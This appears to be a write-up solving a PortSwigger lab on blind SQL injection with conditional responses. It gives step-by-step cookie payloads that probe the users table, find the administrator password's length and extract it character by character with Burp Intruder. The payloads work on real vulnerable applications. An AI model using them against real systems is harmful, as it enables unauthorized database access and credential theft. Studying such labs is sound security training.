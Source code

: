 # Blind SQL injection with conditional responses

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.


---
#blind_sql
**NOTE**: some important SQL query

![screnshot](images/lab11_limit_sql_query.jpg)

step 1

open lab click to any category you will get `Welcome back!` message

![screnshot](images/lab11_welcome_back_mesaage.jpg)

send `/filter?category=lifestyle` to repeater
send request you will get `Welcome back!` message

![screnshot](images/lab11_lifestyle_send_to_repeater.jpg)

step 2

In TrackingId=xyzjjgjjgj(any random text present) add  `' AND '1'='1` 
and send request
you will get `Welcome back!` because  *'1'='1*  is true

![screnshot](images/lab11_test_1_equal_1.jpg)

step 3

add payload
`' AND '1'='2`
you will  not get `Welcome back!` because  *'1'='2*  not true

![screnshot](images/lab11_test_1_equal_2.jpg)

step 4

add payload
`' AND (SELECT 'a' FROM users LIMIT 1)='a`
send request
you will get `Welcome back!` *SELECT 'a' FROM users LIMIT 1* it will return *a* so *'a'='a* is true

![screnshot](images/lab11_limit_test_case.jpg)

step 5

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
you will get `Welcome back!`

![screnshot](images/lab11_test_true_condition_a_equal_a.jpg)

step 6

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
you will get `Welcome back!`
it means password is greater than 1

![screnshot](images/lab11_password_greater_than_1.jpg)

step 7

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`
you will not get `Welcome back!`
it means password is not greater than 20

![screnshot](images/lab11_paswword_greater_than_20.jpg)

step 8

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a`
you will get `Welcome back!`
it means password is greater than 19 
so actual size of password is 20, you can use intruder to find out size of password

![screnshot](images/lab11_wecome_back_one_match.jpg)

step 9

add paload
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
you will not get `Welcome back!`

![screnshot](images/lab11_welcomeback_zero_match.jpg)

step 10

in intruder
add payload
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
click on attack

![screnshot](images/lab11_intruder_payload.jpg)

in payload setting
payload type Simple list
and in setting Grep-Match clear first then add `Welcome back!`

![screnshot](images/lab11_payload_grep_setting.jpg)

once attack is finished
you will see `1` in `welcome back` note down that alphabet or digit

![screnshot](images/lab11_attack_result.jpg)

step 11

since you have password length 20 so you have to attack 20 times
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` => 0 (first alphabet)
`' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` => l (2nd alphabet)
perform 3,4,5,..... to 20
`' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='§a§` => m (20th alphabet)

note down each password `0lujlxuejvv4qcjy82am`

step 12

To solve the lab
login using `administrator` as username and password is `0lujlxuejvv4qcjy82am`

![screnshot](images/lab11_solved_lab.jpg)


___
another method to save repetitive task

![screnshot](images/lab11_cluster_bomb_attack.jpg)

![screnshot](images/lab11_payload1_payload2_grep_match.jpg)

![screnshot](images/lab11_result_after_attack.jpg)

payload 1 is the position and payload 2 is alphabet or digit 
like 7 is first 20 is t
`7lukwn1c04v1bpkdf36t`

